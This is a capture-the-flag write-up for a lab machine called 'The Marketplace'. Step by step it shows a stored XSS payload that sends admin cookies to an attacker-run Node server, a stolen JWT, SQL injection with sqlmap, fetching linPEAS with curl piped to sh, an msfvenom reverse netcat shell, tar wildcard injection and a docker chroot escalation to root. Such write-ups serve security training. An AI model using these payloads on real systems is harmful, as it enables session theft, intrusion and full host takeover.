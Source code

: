 # The Marketplace

Lets start with some recon `nmap -A -sS -T4 <IP>`

Results:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-08 13:06 EST
Nmap scan report for 10.10.215.43
Host is up (0.033s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
|_  256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
80/tcp    open  http    nginx 1.19.2
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: The Marketplace
|_http-server-header: nginx/1.19.2
32768/tcp open  http    Node.js (Express middleware)
|_http-title: The Marketplace
| http-robots.txt: 1 disallowed entry 
|_/admin
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Linux 2.6.32 (86%), Linux 2.6.32 - 3.1 (86%), Linux 2.6.39 - 3.2 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   32.96 ms 10.11.0.1
2   33.09 ms 10.10.215.43

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.45 seconds
```

So as we can see we have a simple structure of an ssh login on port 22 and an http webserver on port 80 that is mirrored for nodejs on port 32768. So lets head over to the website! While looking over the website I will run gobuster in the back to find hidden directories.

Okay so we can signup lets do that first thing that catches my eye is the 'new listing' feature we can probably upload a revshell there. (Also gobuster returned nothing intresting.) After trying to upload an image I see they have blocked that by putting a No image placeholder:

![Screen1](https://github.com/Gomez0015/CTF-Writeups/blob/main/📄%20CTF%20Writeups/Images/Screen%20Shot%202022-03-08%20at%207.01.31%20PM.png)

So lets just try an XSS attack! With a simple `<script>alert('Hello!')</script>` in the description it works! we get a succesful alert. So lets take it to the next level and check if anyone (like an admin) is checking our post!

Lets start with making a simple server which can accept post request and log the data to our console! I will be making a node.js server for this because its what I prefer but there are many ways to do it. 

Start with a simple `npm init` then we can make a `server.js` file and add some simple code:

```js
const express = require('express')
const app = express()
const port = 3000
var bodyParser = require('body-parser')

// parse application/x-www-form-urlencoded
app.use(bodyParser.urlencoded({ extended: false }))

// parse application/json
app.use(bodyParser.json())

app.use(function(req, res, next) {
  res.header("Access-Control-Allow-Origin", "*");
  res.header("Access-Control-Allow-Headers", "Origin, X-Requested-With, Content-Type, Accept");
  next();
});

app.post('/cookies', (req, res) => {
  console.log(req.body);
})

app.listen(port, () => {
  console.log(`Malicious app listening on port ${port}`)
})
```

then just run `npm i express body-parser` and were good to go!

![Screen2](https://github.com/Gomez0015/CTF-Writeups/blob/main/📄%20CTF%20Writeups/Images/Screen%20Shot%202022-03-08%20at%205.49.37%20PM.png)

Now back to the website if we change our script tu send post data to `YOURIP/cookies` we should get it logged directly! Easy right? We can use the following code as a test in our console to make sure we get the data.

```js
var xhr = new XMLHttpRequest();
xhr.open("POST", 'http://<YOURIP>:<PORT>/cookies', true);
xhr.setRequestHeader('Content-Type', 'application/json');
xhr.send(JSON.stringify({
    value: 'value'
}));
```

Which should in result give us a simple `{ value: 'value' }` logged to our console! Well congrats we got the server working and ready to steal data! Now lets iinject this into a ticket! 

So as we had before `<script>alert('XSS')</script>` And just replace whats inside the script with what we just tested!

```html
	<script>
		var xhr = new XMLHttpRequest();
		xhr.open("POST", 'http://<YOURIP>:<PORT>/cookies', true);
		xhr.setRequestHeader('Content-Type', 'application/json');
		xhr.send(JSON.stringify({
			value: 'value'
		}));
	</script>
```

It works! Perfect now all we have to do is find important data like cookies and send them over by changing the body to:
`cookies: document.cookie`

Also make sure to report the post to the admins so one actually goes check it out!
After doing that we get:
```json
{
  cookies: 'token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2NDY3NjMzNTF9.tG4DQ-jnozS-E3h69kXPOSlwPwAbqeskQZq0DkfseJo'
}
```

Cookies! Yay! We can now use firefox dev tools or just a chrome cookie editor extension and change our token to the admins!

![Screen3](https://github.com/Gomez0015/CTF-Writeups/blob/main/📄%20CTF%20Writeups/Images/Screen%20Shot%202022-03-08%20at%207.23.09%20PM.png)

We now have access to the admins panel + our first flag GG! Lets keep going!
If we click on a user we can see this kind of url: `http://10.10.215.43/admin?user=4`
Which I think indicates it runs an SQL query based on users id so we can SQLi that. Lets try it.

Lets Imagine the query goes as such: 
`SELECT * FROM users WHERE id=(user input)`

So what if we tried inserting in the url the following SQL query:
`6 UNION SELECT @@version,1,1,1;---`
 We get a positive result! 
 
![Screen4](https://github.com/Gomez0015/CTF-Writeups/blob/main/📄%20CTF%20Writeups/Images/Screen%20Shot%202022-03-08%20at%2010.26.04%20PM.png)
 
So now lets run sqlmap on it:
`sqlmap http://<IP>/admin?user=3 --cookie='token=<TOKEN>' --technique=U --delay=2 -dump`

This will give us some juicy info

![Screen5](https://github.com/Gomez0015/CTF-Writeups/blob/main/📄%20CTF%20Writeups/Images/Screen%20Shot%202022-03-08%20at%2011.08.44%20PM.png)
 
Here we have the users table with some hashed passwords. We also get an intresting message:
`Hello! An automated system has detected your SSH password is too weak and needs to be changed. You have been generated a new temporary password. Your new password is: @b_ENXkGYUCAv3zJ`

and it was to `user_id 3` which means thats jake! Lets try logging into
`ssh jake@ip`

![Screen5](https://github.com/Gomez0015/CTF-Writeups/blob/main/📄%20CTF%20Writeups/Images/Screen%20Shot%202022-03-08%20at%2011.12.54%20PM.png)

Sick! Were in baby!! We can now just `cat user.txt` and get the second flag!
Time for the best part Priv Esc. I will run a simple [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) 

First we can host a server on our Attack Machine: 
`python -m SimpleHTTPServer 80`
Then on our Victim Machine:
`curl <YOUR_IP>/linpeas.sh | sh`

After running linPEAS we have some intresting info:

```
(michael) NOPASSWD: /opt/backups/backup.sh
uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)
```

Contents of `/opt/backups/backup.sh`:
```bash
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```

So we see that we can run the file wthout a password which is good and the file is using * a wildcard character which we can exploit! First in our Attacker Machine we need to create a payload using: `msfvenom -p cmd/unix/reverse_netcat lhost=<YOUR_IP> lport=9999 R`
After we get the payload back we can now inject it into a file on the victim machine using these following commands:
```bash
echo '<YOUR_PAYLOAD>' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

now if we open a `nc -nvlp 9999` on our machine and try to run: `sudo -u michael /opt/backups/backup.sh` we get an error about backup.tar permissions for michael so lets just `mv backup.tar bk.tar` and now if we run it again we get a reverse shell for michael!

![Screen6](https://github.com/Gomez0015/CTF-Writeups/blob/main/📄%20CTF%20Writeups/Images/Screen%20Shot%202022-03-09%20at%2011.27.51%20AM.png)

Lets just run a quick `python -c 'import pty; pty.spawn("/bin/sh")'` to get a better shell. So as we saw earlier in linPEAS michael is  docker user so we can exploit that with a quick [GTFOBins](https://gtfobins.github.io/gtfobins/docker/) search! If we just scroll down to `sudo` we can find the following payload:
```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

Which if we just run, and then check who we are with `whoami`, we are now root!
GG! Was a fun one some SQLi, XSS, Wildcard PrivEsc and Docker. See ya next time!


